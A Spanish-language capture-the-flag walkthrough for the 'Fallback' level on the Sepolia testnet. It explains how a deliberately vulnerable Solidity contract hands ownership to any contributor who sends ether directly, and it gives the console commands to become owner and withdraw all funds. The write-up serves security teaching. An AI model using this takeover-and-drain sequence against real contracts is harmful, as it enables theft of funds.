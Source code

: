 # Fallback

<!-- > Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=YU-iNyvj6mA">
    <img src="https://img.youtube.com/vi/YU-iNyvj6mA/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p> -->

Los objetivos son convertirse en el **dueño** del contrato y **reducir su balance a cero**, es decir robar sus fondos. Para empezar, vamos a crear una nueva instancia de este contrato en la red de pruebas Sepolia.

Ahora vamos a analizar el código, y como el primer objetivo es convertirse en el dueño, observamos que se inicia una variable de tipo `address` con la dirección del dueño.

```solidity
address public owner;
```

Más abajo, en la función `receive`, se establece esta variable a la cuenta que envía los fondos con la condición de que tenga **contribuciones**.

```solidity
receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

¿Qué contribuciones?

Si subimos un poco, veremos que hay una función que se llama `contribute()` que requiere que se mande menos de 0.001 ether y establece en la variable _contributions_ un número mayor a cero, que es lo que necesitamos.

```solidity
function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```

Primero vamos a comprobar quien es el `owner` desde la consola de comandos del navegador:

```jsx
await contract.owner();
```

Después vamos a llamar a esta función para tener al menos una contribución y poder pasar la condición de la función `receive`.

```jsx
await contract.contribute({ value: toWei("0.0001", "ether") });
```

Ahora que tenemos una **contribución**, enviaremos una transacción a bajo nivel al contrato para convertirnos en el `owner`.

```jsx
await sendTransaction({
  to: "<lvl instance>",
  value: toWei("0.0001", "ether"),
  from: "<player>",
});
```

Esperamos a que se confirme la transacción en la Blockchain y comprobamos que somos el `owner` del contrato.

```jsx
await contract.owner();
```

Ahora que somos los `owner` del contrato, podemos llamar a la función withdraw para retirar los fondos a nuestra cuenta.

```jsx
await contract.withdraw();
```

Para terminar, entregamos la instancia del nivel firmando la transacción.

